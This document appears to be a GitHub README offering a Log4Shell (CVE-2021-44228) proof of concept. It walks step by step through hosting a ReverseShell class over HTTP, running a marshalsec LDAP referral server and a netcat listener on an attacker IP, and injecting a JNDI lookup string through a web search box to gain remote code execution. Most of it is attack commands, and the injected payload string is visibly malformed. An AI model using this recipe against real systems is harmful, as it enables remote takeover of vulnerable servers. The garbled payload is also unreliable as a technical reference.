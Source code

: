 # Log4Shell-PoC
A Log4Shell Proof of Concept (PoC)

This repository contains a proof of concept (PoC) for the Log4Shell vulnerability (CVE-2021-44228), one of the most critical security issues of the modern internet, that affects Java Apache Log4j library through versions 2.0-2.14.0. Log4Shell allows trivial remote code execution which has generated significant attention in the security community. This PoC is provided for educational and testing purposes to help understand the vulnerability and its potential impact.

**Disclaimer:** This PoC should only be used in controlled environments for educational and defensive purposes. Unauthorized use of this PoC to exploit or cause harm is illegal and unethical.

This guide will explain how to set-up and execute a PoC, please use it responsibly.

1. Start Http server to host the ReverseShell.java that will be loaded in the vulnerable web application (SearchWeb). This can be done easily with python HTTP module as follows:
   ```
  python3 -m http.server 8000
```
2. Set-up and LDAP referral that will point to the Http server previosuly configured. LDAP by its own is not able to serve .java files, therefore LDAP requests will be redirected to our Http server so the ReverseShell.java can be delivered successfully. In order to set this up we can use the marshalsec utility provided at https://github.com/mbechler/marshalsec with the following command:
   ```
  java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndiLDAPRefServer "http://192.168.1.2:8000/#ReverseShell"
```
Thiw will redirect all incoming requests to our LDAP to the ReverseShell.class resource hosted on the Http server.

3. Set-up a netcat listener on port 443 to await the connection from the reverse shell. For this, we can use the Netcat (nc) tool:
   ```
  nc -lvnp 443
```
4. Delivery of the attack vector: Now if we browse to the path /SearchWeb of our vulnerable application, we will see a search box. Whatever we submit in this search box will be logged by the application, therefore, we can introduce here the attack vector:
   ```
  ${jndi:ldap//192.168.1.2/ReverseShell)
```
After this text is sent, we will see our LDAP server has received an incoming request that has been forwarded to the Http server, and this has served the ReverseShell.class to the vulnerable application. Having a look at our netcat listener we see the incoming TCP connection from the IP of the web application, meaning we have gained RCE over the web application.
